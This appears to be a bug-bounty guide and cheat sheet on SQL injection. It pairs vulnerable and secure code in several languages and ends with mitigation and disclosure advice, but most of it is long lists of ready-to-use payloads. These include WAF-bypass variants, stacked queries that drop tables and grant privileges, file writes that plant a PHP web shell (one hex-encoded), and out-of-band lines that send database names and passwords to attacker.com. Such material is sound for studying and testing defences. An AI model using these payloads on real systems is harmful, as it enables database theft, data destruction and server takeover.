

---

## 🔴 **WHAT IS SQL INJECTION?**

SQL Injection (SQLi) is a code injection technique that exploits vulnerabilities in an application's database layer. Attackers insert malicious SQL code into input fields or parameters, which is then executed by the backend database.

### **Simple Example**
```sql
-- Vulnerable code
$query = "SELECT * FROM users WHERE username = '" . $_GET['username'] . "'";

-- Normal input
username = john
-- Query becomes: SELECT * FROM users WHERE username = 'john'

-- Malicious input
username = admin' OR '1'='1
-- Query becomes: SELECT * FROM users WHERE username = 'admin' OR '1'='1'
-- Returns ALL users! Because '1'='1' is always true
```

---

## 🟠 **ROOT CAUSE**

### **Why Does SQL Injection Happen?**

```markdown
1. **Lack of Input Validation** - User input is not validated or sanitized
2. **Improper Query Construction** - String concatenation instead of parameterized queries
3. **Insufficient Escaping** - Special characters like ' " ; -- are not escaped
4. **Over-Privileged Database Accounts** - Application connects with admin privileges
5. **No WAF or Poor WAF Configuration** - No protection layer in place
```

### **Vulnerable Code Examples**

#### **PHP (Vulnerable)**
```php
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = $id";
$result = mysqli_query($conn, $query);
```

#### **PHP (Secure - Parameterized Query)**
```php
$id = $_GET['id'];
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
```

#### **Python (Vulnerable)**
```python
cursor.execute(f"SELECT * FROM users WHERE id = {user_id}")
```

#### **Python (Secure)**
```python
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
```

#### **Node.js (Vulnerable)**
```javascript
const query = `SELECT * FROM users WHERE id = ${req.query.id}`;
db.query(query);
```

#### **Node.js (Secure)**
```javascript
const query = "SELECT * FROM users WHERE id = ?";
db.query(query, [req.query.id]);
```

#### **Java (Vulnerable)**
```java
String query = "SELECT * FROM users WHERE id = " + request.getParameter("id");
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery(query);
```

#### **Java (Secure)**
```java
String query = "SELECT * FROM users WHERE id = ?";
PreparedStatement pstmt = conn.prepareStatement(query);
pstmt.setString(1, request.getParameter("id"));
ResultSet rs = pstmt.executeQuery();
```

---

## 🟡 **TYPES OF SQL INJECTION**



### **1. In-Band SQL Injection (Classic)**

#### **Error-Based**
```sql
-- Intentionally cause errors to reveal data
' AND extractvalue(1,concat(0x7e,version()))-- -
```
**Response shows:** `XPATH syntax error: '~8.0.32~'`

#### **Union-Based**
```sql
-- Combine results from multiple queries
' UNION SELECT username,password FROM users-- -
```

### **2. Blind SQL Injection (Inferential)**

#### **Boolean-Based Blind**
```sql
-- True condition (returns normal page)
' AND 1=1-- -

-- False condition (returns different page)
' AND 1=2-- -
```

#### **Time-Based Blind**
```sql
-- 5 second delay only if condition is TRUE
' AND IF(1=1, SLEEP(5), 0)-- -
```

### **3. Out-of-Band SQL Injection**
```sql
-- Send data to attacker-controlled server
' AND LOAD_FILE(CONCAT('\\\\',database(),'.attacker.com\\a.txt'))-- -
```

---

## 🟢 **HOW TO FIND SQL INJECTION**

### **Step 1: Identify Input Vectors**

```markdown
URL Parameters:
  - ?id=123
  - ?page=1
  - ?user_id=456
  - ?q=search
  - ?category=books

POST Parameters:
  - Login forms
  - Search boxes
  - Registration forms
  - Contact forms

HTTP Headers:
  - User-Agent
  - Referer
  - Cookie
  - X-Forwarded-For

Path Parameters:
  - /user/123
  - /product/iphone

JSON/API:
  - {"id": 123}
  - {"query": "search"}
```

### **Step 2: Google Dorks for Parameters**

```google
# Find parameterized URLs
site:target.com inurl:?
site:target.com inurl:id=
site:target.com inurl:page=
site:target.com filetype:php inurl:?
```

### **Step 3: Parameter Discovery Tools**

```bash
# Extract URLs
gau target.com | grep '?' > param_urls.txt
waybackurls target.com | grep '?' >> param_urls.txt

# Extract unique parameters
cat param_urls.txt | grep -oP '[?&]\K[^=]+' | sort -u
```

---

## 🔵 **DETECTION METHODOLOGY**

### **The 2-Minute Test (Every Parameter)**

```sql
-- Step 1: Error Detection (5 seconds)
'
"
')

-- Step 2: Boolean Test (10 seconds)
AND 1=1-- -
AND 1=2-- -

-- Step 3: Time Test (15 seconds)
AND SLEEP(5)-- -        (MySQL)
AND pg_sleep(5)-- -     (PostgreSQL)
WAITFOR DELAY '0:0:5'-- - (MSSQL)
```

### **Response Indicators**

| Response | What It Means |
|----------|---------------|
| `You have an error in your SQL syntax` | ✅ MySQL Error-Based |
| `Unclosed quotation mark` | ✅ MSSQL Error-Based |
| `ERROR: syntax error at or near` | ✅ PostgreSQL Error-Based |
| `ORA-00933` | ✅ Oracle Error-Based |
| Different content between true/false | ✅ Boolean Blind |
| 5+ second delay | ✅ Time-Based Blind |
| Extra data in response | ✅ Union-Based |

### **Polyglot Detection (Works on ALL Databases)**

```sql
-- Test these on every parameter
'
' OR '1'='1
' OR '1'='2
1+1-1
```

---

## 🟣 **DATABASE-SPECIFIC PAYLOADS**

### **MySQL**

' AND extractvalue(1,concat(0x7e,version()))-- -
' AND extractvalue(1,concat(0x7e,database()))-- -
' AND extractvalue(1,concat(0x7e,user()))-- -
' AND extractvalue(1,concat(0x7e,@@version))-- -
' AND extractvalue(1,concat(0x7e,@@hostname))-- -
' AND extractvalue(1,concat(0x7e,@@datadir))-- -
' AND updatexml(1,concat(0x7e,version()),1)-- -
' AND updatexml(1,concat(0x7e,database()),1)-- -
' AND updatexml(1,concat(0x7e,user()),1)-- -
' AND GTID_SUBSET(CONCAT(0x7e,version()),1337)-- -
' AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x7e,version())) USING utf8)))-- -
' AND EXP(~(SELECT * FROM (SELECT CONCAT(0x7e,version(),0x7e))x))-- -
' AND (SELECT * FROM (SELECT NAME_CONST(version(),1)) as x)-- -
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- -
' OR 1 GROUP BY CONCAT(version(),FLOOR(RAND(0)*2)) HAVING MIN(0)-- -
' AND extractvalue(1,concat(0x7e,(SELECT schema_name FROM information_schema.schemata LIMIT 0,1)))-- -
' AND extractvalue(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)))-- -
' AND extractvalue(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1)))-- -
' AND extractvalue(1,concat(0x7e,(SELECT concat(username,0x3a,password) FROM users LIMIT 0,1)))-- -
' AND updatexml(1,concat(0x7e,(SELECT schema_name FROM information_schema.schemata LIMIT 0,1)),1)-- -
' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)),1)-- -
' AND updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1)),1)-- -
' AND updatexml(1,concat(0x7e,(SELECT concat(username,0x3a,password) FROM users LIMIT 0,1)),1)-- -
' AND extractvalue(1,concat(0x7e,@@version_comment))-- -
' AND extractvalue(1,concat(0x7e,@@basedir))-- -
' AND extractvalue(1,concat(0x7e,@@tmpdir))-- -
' AND updatexml(1,concat(0x7e,@@hostname),1)-- -
' AND updatexml(1,concat(0x7e,@@version_compile_os),1)-- -
' AND extractvalue(1,concat(0x7e,(SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)))-- -
' AND extractvalue(1,concat(0x7e,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database())))-- -

**Union-Based**
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT 1,2,3-- -
-1' UNION SELECT 1,2,3-- -
' UNION SELECT database(),user(),version()-- -
' UNION SELECT schema(),current_user(),@@version-- -
' UNION SELECT table_name,2,3 FROM information_schema.tables WHERE table_schema=database()-- -
' UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_name='users'-- -
' UNION SELECT GROUP_CONCAT(table_name),2,3 FROM information_schema.tables WHERE table_schema=database()-- -
' UNION SELECT GROUP_CONCAT(column_name),2,3 FROM information_schema.columns WHERE table_name='users'-- -
' UNION SELECT username,password,3 FROM users-- -
' UNION SELECT GROUP_CONCAT(username,0x3a,password),2,3 FROM users-- -
' UNION SELECT CONCAT(username,0x3a,password),2,3 FROM users LIMIT 1-- -
' UNION SELECT LOAD_FILE('/etc/passwd'),2,3-- -
' UNION SELECT LOAD_FILE('/var/www/html/config.php'),2,3-- -
' UNION SELECT LOAD_FILE('C:\\Windows\\win.ini'),2,3-- -
' UNION SELECT @@basedir,@@datadir,@@hostname-- -
' UNION SELECT user,host,password FROM mysql.user-- -
' UNION SELECT grantee,privilege_type,is_grantable FROM information_schema.user_privileges-- -
' UNION SELECT table_schema,table_name,column_name FROM information_schema.columns WHERE column_name LIKE '%pass%'-- -
' UNION SELECT table_schema,table_name,column_name FROM information_schema.columns WHERE column_name LIKE '%user%'-- -
' UNION SELECT table_schema,table_name,column_name FROM information_schema.columns WHERE column_name LIKE '%mail%'-- -
' UNION SELECT table_name,column_name,data_type FROM information_schema.columns WHERE table_schema=database()-- -
' UNION SELECT variable_name, variable_value,1 FROM performance_schema.global_variables-- -
' UNION SELECT event_name,current_count,high_count FROM performance_schema.events_waits_summary_global_by_event_name-- -
' UNION SELECT object_schema,object_name,object_type FROM performance_schema.table_handles-- -
' UNION SELECT table_schema,table_name,create_time FROM information_schema.tables-- -
' UNION SELECT routine_name,routine_type,created FROM information_schema.routines-- -
' UNION SELECT trigger_name,event_manipulation,action_timing FROM information_schema.triggers-- -
' UNION SELECT table_name,constraint_name,constraint_type FROM information_schema.table_constraints-- -
' UNION SELECT COLUMN_NAME,COLUMN_TYPE,IS_NULLABLE FROM information_schema.COLUMNS WHERE TABLE_NAME='users'-- -

**Time-Based**
' AND SLEEP(1)-- -
' AND SLEEP(2)-- -
' AND SLEEP(3)-- -
' AND SLEEP(4)-- -
' AND SLEEP(5)-- -
' AND SLEEP(6)-- -
' AND SLEEP(7)-- -
' AND SLEEP(8)-- -
' AND SLEEP(9)-- -
' AND SLEEP(10)-- -
' AND SLEEP(15)-- -
' AND SLEEP(20)-- -
' AND SLEEP(25)-- -
' AND SLEEP(30)-- -
' AND (SELECT SLEEP(5))-- -
' AND (SELECT SLEEP(5) FROM DUAL)-- -
' AND (SELECT SLEEP(5) WHERE 1=1)-- -
' AND (SELECT 1 FROM (SELECT SLEEP(5)) a)-- -
' AND IF(1=1, SLEEP(5), 0)-- -
' AND IF(1=2, SLEEP(5), 0)-- -
' AND IF(ASCII(SUBSTR(database(),1,1))>64, SLEEP(5), 0)-- -
' AND IF(ASCII(SUBSTR(database(),1,1))>96, SLEEP(5), 0)-- -
' AND IF(ASCII(SUBSTR(database(),1,1))>112, SLEEP(5), 0)-- -
' AND IF(ASCII(SUBSTR(database(),1,1))=112, SLEEP(5), 0)-- -
' AND CASE WHEN 1=1 THEN SLEEP(5) ELSE 0 END-- -
' AND CASE WHEN 1=2 THEN SLEEP(5) ELSE 0 END-- -
' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0)-- -
' AND IF((SELECT COUNT(*) FROM users)>10, SLEEP(5), 0)-- -
' AND BENCHMARK(1000000,MD5('a'))-- -
' AND BENCHMARK(5000000,MD5('a'))-- -
' AND BENCHMARK(10000000,MD5('a'))-- -
' AND BENCHMARK(50000000,MD5('a'))-- -
' AND (SELECT COUNT(*) FROM information_schema.tables A, information_schema.tables B, information_schema.tables C)-- -
'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z
'XOR(if(1=1,sleep(5),0))XOR'Z
'XOR(if(now()=sysdate(),sleep(5),0))OR'
0'|(IF((now())LIKE(sysdate()),SLEEP(5),0))|'Z
'XOR(SELECT(0)FROM(SELECT(SLEEP(5)))a)XOR'Z
(SELECT(0)FROM(SELECT(SLEEP(5)))a)
1 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)

**Boolean Blind **

' AND 1=1-- -
' AND 1=2-- -
' AND '1'='1-- -
' AND '1'='2-- -
' OR 1=1-- -
' OR 1=2-- -
' OR '1'='1-- -
' OR '1'='2-- -
" AND "1"="1-- -
" AND "1"="2-- -
" OR "1"="1-- -
" OR "1"="2-- -
` AND `1`=`1-- -
` AND `1`=`2-- -
` OR `1`=`1-- -
` OR `1`=`2-- -
' AND 1=1#
' AND 1=2#
' OR 1=1#
' OR 1=2#
' AND '1'='1#
' AND '1'='2#
' OR '1'='1#
' OR '1'='2#
' AND LENGTH(database())=1-- -
' AND LENGTH(database())=2-- -
' AND LENGTH(database())=3-- -
' AND LENGTH(database())=4-- -
' AND LENGTH(database())=5-- -
' AND LENGTH(database())=6-- -
' AND LENGTH(database())=7-- -
' AND LENGTH(database())=8-- -
' AND LENGTH(database())=9-- -
' AND LENGTH(database())=10-- -
' AND ASCII(SUBSTR(database(),1,1))>64-- -
' AND ASCII(SUBSTR(database(),1,1))>96-- -
' AND ASCII(SUBSTR(database(),1,1))>112-- -
' AND ASCII(SUBSTR(database(),1,1))=112-- -


**WAF Bypass**
'/**/AND/**/1=1-- -
'/**/AND/**/1=2-- -
'/**/OR/**/1=1-- -
'/**/OR/**/1=2-- -
'/**/AND/**/SLEEP(5)-- -
'%0aAND%0a1=1-- -
'%0aAND%0a1=2-- -
'%0aOR%0a1=1-- -
'%0aOR%0a1=2-- -
'%0aAND%0aSLEEP(5)-- -
'%09AND%091=1-- -
'%09AND%091=2-- -
'%09OR%091=1-- -
'%09OR%091=2-- -
'%09AND%09SLEEP(5)-- -
' aNd 1=1-- -
' aNd 1=2-- -
' AnD 1=1-- -
' AnD 1=2-- -
' oR 1=1-- -
' oR 1=2-- -
' Or 1=1-- -
' Or 1=2-- -
' uNiOn SeLeCt 1,2,3-- -
' UnIoN sElEcT 1,2,3-- -
%27%20AND%201=1--%20-
%27%20AND%201=2--%20-
%27%20OR%201=1--%20-
%27%20OR%201=2--%20-
%27%20AND%20SLEEP(5)--%20-
%27%20UNION%20SELECT%201,2,3--%20-
%2527%2520AND%25201=1--%2520-
%2527%2520AND%25201=2--%2520-
%2527%2520OR%25201=1--%2520-
%2527%2520OR%25201=2--%2520-
%2527%2520AND%2520SLEEP(5)--%2520-
%2527%2520UNION%2520SELECT%25201,2,3--%2520-
'/*!50000AND*/ 1=1-- -
'/*!50000OR*/ 1=1-- -
'/*!50000UNION*/ /*!50000SELECT*/ 1,2,3-- -


Stacked Queries (15 Payloads)
sql
; SELECT 1-- -
; SELECT database()-- -
; SELECT user()-- -
; SELECT version()-- -
; SELECT schema()-- -
; SELECT @@version-- -
; DROP TABLE users-- -
; INSERT INTO users VALUES ('hacker','pass')-- -
; UPDATE users SET password='hacked' WHERE username='admin'-- -
; DELETE FROM users WHERE username='test'-- -
; CREATE TABLE test(id INT)-- -
; ALTER TABLE users ADD COLUMN backdoor VARCHAR(100)-- -
; TRUNCATE TABLE logs-- -
; SELECT * INTO backup FROM users-- -
; GRANT ALL PRIVILEGES ON *.* TO 'hacker'@'localhost'-- -
File Operations (10 Payloads)
sql
' UNION SELECT LOAD_FILE('/etc/passwd')-- -
' UNION SELECT LOAD_FILE('/var/www/html/config.php')-- -
' UNION SELECT LOAD_FILE('C:\\Windows\\win.ini')-- -
' UNION SELECT LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts')-- -
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
' UNION SELECT "<?php phpinfo(); ?>" INTO OUTFILE "/var/www/html/info.php"-- -
' UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/shell.php'-- -
' UNION SELECT LOAD_FILE('/etc/passwd') INTO DUMPFILE '/tmp/passwd_copy'-- -
SELECT * FROM users INTO OUTFILE '/tmp/users.txt'-- -
SELECT * FROM users INTO DUMPFILE '/tmp/users.dump'-- -
Out-of-Band (5 Payloads)
sql
' AND LOAD_FILE(CONCAT('\\\\',database(),'.attacker.com\\a.txt'))-- -
' AND LOAD_FILE(CONCAT('//',version(),'.attacker.com/a.txt'))-- -
' AND LOAD_FILE(CONCAT('\\\\',user(),'.attacker.com\\test'))-- -
' AND LOAD_FILE(CONCAT('\\\\',(SELECT table_name FROM information_schema.tables LIMIT 1),'.attacker.com\\out'))-- -
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),'.attacker.com\\hash'))-- -
---

## 🔴 **WAF BYPASS TECHNIQUES**

### **Encoding Bypasses**

```sql
-- URL Encoding
%27%20AND%201=1--%20-

-- Double URL Encoding
%2527%2520AND%25201=1--%2520-

-- Hex Encoding
0x2720414e4420313d31

-- Unicode
%u0027%u0020AND%u00201=1
```

### **Whitespace Bypasses**

```sql
-- Comments as spaces
'/**/AND/**/1=1-- -

-- Newlines
'%0aAND%0a1=1-- -

-- Tabs
'%09AND%091=1-- -

-- Parentheses
'AND(1=1)-- -
```

### **Keyword Obfuscation**

```sql
-- Case variation
' aNd 1=1-- -
' UnIoN sElEcT 1,2,3-- -

-- Inline comments
' UN/**/ION SEL/**/ECT 1,2,3-- -

-- MySQL versioned comments
' /*!50000UNION*/ /*!50000SELECT*/ 1,2,3-- -
```

### **Operator Substitution**

```sql
-- Replace AND with &&
' && 1=1-- -

-- Replace OR with ||
' || 1=1-- -

-- Replace = with LIKE
' OR 'a' LIKE 'a'-- -
```

### **XOR Technique (Best WAF Bypass)**
```sql
'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z
```

---

## 🟠 **EXPLOITATION & DATA EXTRACTION**

### **Union-Based Extraction**

```sql
-- Step 1: Find column count
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -

-- Step 2: Find vulnerable columns
-1' UNION SELECT 1,2,3-- -

-- Step 3: Extract database name
-1' UNION SELECT database(),2,3-- -

-- Step 4: Extract table names
-1' UNION SELECT table_name,2,3 FROM information_schema.tables WHERE table_schema=database()-- -

-- Step 5: Extract column names
-1' UNION SELECT column_name,2,3 FROM information_schema.columns WHERE table_name='users'-- -

-- Step 6: Extract data
-1' UNION SELECT username,password,3 FROM users-- -
```

### **Boolean Blind Extraction**

```sql
-- Extract database name length
' AND LENGTH(database())=8-- -

-- Extract first character (ASCII)
' AND ASCII(SUBSTR(database(),1,1))>64-- -
' AND ASCII(SUBSTR(database(),1,1))>96-- -
' AND ASCII(SUBSTR(database(),1,1))>112-- -
' AND ASCII(SUBSTR(database(),1,1))=112-- -

-- Binary search (faster)
' AND ASCII(SUBSTR(database(),1,1)) BETWEEN 97 AND 122-- -
```

### **Time-Based Blind Extraction**

```sql
-- Extract first character with time delay
' AND IF(ASCII(SUBSTR(database(),1,1))=112, SLEEP(5), 0)-- -

-- Extract table name
' AND IF(ASCII(SUBSTR((SELECT table_name FROM information_schema.tables LIMIT 1),1,1))=117, SLEEP(5), 0)-- -

-- Extract data
' AND IF(ASCII(SUBSTR((SELECT password FROM users LIMIT 1),1,1))=97, SLEEP(5), 0)-- -
```

### **Error-Based Extraction (MySQL)**

```sql
-- Extract database name
' AND extractvalue(1,concat(0x7e,database()))-- -

-- Extract table name
' AND extractvalue(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)))-- -

-- Extract column name
' AND extractvalue(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1)))-- -

-- Extract data
' AND extractvalue(1,concat(0x7e,(SELECT concat(username,0x3a,password) FROM users LIMIT 0,1)))-- -
```

---

## 🟡 **PREVENTION & MITIGATION**

### **1. Use Parameterized Queries (Prepared Statements)**

```php
// Secure PHP code
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
```

### **2. Input Validation**

```php
// Whitelist approach
if (!ctype_digit($id)) {
    die("Invalid input");
}
```

### **3. Escaping User Input (Last Resort)**

```php
$id = mysqli_real_escape_string($conn, $_GET['id']);
```

### **4. Stored Procedures**

```sql
CREATE PROCEDURE GetUser(IN user_id INT)
BEGIN
    SELECT * FROM users WHERE id = user_id;
END
```

### **5. Least Privilege Principle**

```sql
-- Create limited user
CREATE USER 'app_user'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT ON database_name.* TO 'app_user'@'localhost';
-- DO NOT grant DROP, DELETE, UPDATE unless necessary
```

### **6. Web Application Firewall (WAF)**
- Cloudflare WAF
- AWS WAF
- ModSecurity
- Imperva

### **7. Regular Security Testing**
- DAST tools (sqlmap, Burp Suite)
- SAST tools (code review)
- Penetration testing
- Bug bounty programs

---

## 🟢 **REPORTING TEMPLATE**

```markdown
# SQL Injection Vulnerability Report

## Severity: P1 (Critical) / P2 (High)

## Description
The `[parameter]` parameter in `[endpoint]` is vulnerable to [Time-Based/Union/Error-Based] SQL injection.

## Steps to Reproduce

1. Navigate to: `https://target.com/page?id=1`

2. Send request with payload:
```
GET /page?id=1' AND SLEEP(5)-- - HTTP/1.1
Host: target.com
```

3. Observe response time difference:
   - Normal request: 89ms
   - Malicious request: 5,124ms

## Proof of Concept

**Screenshot:** [Attach screenshot showing delay]

## Impact
- Unauthorized database access
- Data extraction (user credentials, PII)
- Authentication bypass
- Full database compromise

## Remediation
- Use parameterized queries/prepared statements
- Implement input validation (whitelist approach)
- Apply least privilege principle
- Deploy WAF rules

## CVSS Score: 9.8 (Critical) / 7.5 (High)

## References
- OWASP SQL Injection Prevention Cheat Sheet
- CWE-89: Improper Neutralization of Special Elements
```

---

## 🔵 **QUICK REFERENCE CHEAT SHEET**

### **First Payloads to Try (30 Seconds)**
```sql
'
AND 1=1-- -
AND SLEEP(5)-- -
```

### **Database Identification**
```sql
MySQL:      @@version
PostgreSQL: version()
MSSQL:      @@version
Oracle:     banner FROM v$version
```

### **Time-Based by Database**
```sql
MySQL:      AND SLEEP(5)-- -
PostgreSQL: AND pg_sleep(5)-- -
MSSQL:      WAITFOR DELAY '0:0:5'-- -
Oracle:     AND DBMS_LOCK.SLEEP(5)-- -
```

### **Union-Based Template**
```sql
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
-1' UNION SELECT 1,2,3-- -
```

### **WAF Bypass Collection**
```sql
'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z
%2527%2520AND%25201=1--%2520-
'/**/AND/**/1=1-- -
' aNd 1=1-- -
```

### **Data Extraction (MySQL)**
```sql
-- Database name
' UNION SELECT database()-- -

-- Table names
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()-- -

-- Column names
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'-- -

-- Data
' UNION SELECT GROUP_CONCAT(username,0x3a,password) FROM users-- -
```

---

## 🚨 **RESPONSIBLE DISCLOSURE**

```markdown
⚠️ **DO NOT:**
- Download entire databases
- Modify or delete data
- Install backdoors
- Share vulnerability publicly before fix

✅ **DO:**
- Prove existence (5-second delay)
- Take screenshots as proof
- Report immediately
- Redact sensitive data
- Wait for fix before disclosure
```

---

## 📝 **FINAL CHECKLIST**

```markdown
Before testing:
[ ] Authorization obtained
[ ] Burp Suite configured
[ ] Payload list ready

During testing:
[ ] Test EVERY parameter
[ ] Start with `'`
[ ] Compare true vs false responses
[ ] Measure response times
[ ] Use WAF bypasses if blocked

After confirmation:
[ ] Identify database type
[ ] Extract minimal proof (database name)
[ ] Screenshot evidence
[ ] Report immediately

Prevention (for developers):
[ ] Use parameterized queries
[ ] Input validation
[ ] Least privilege principle
[ ] Regular security testing
```

---

## 🔗 **REFERENCES**

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---

**Happy (Ethical) Hacking! 🎯**
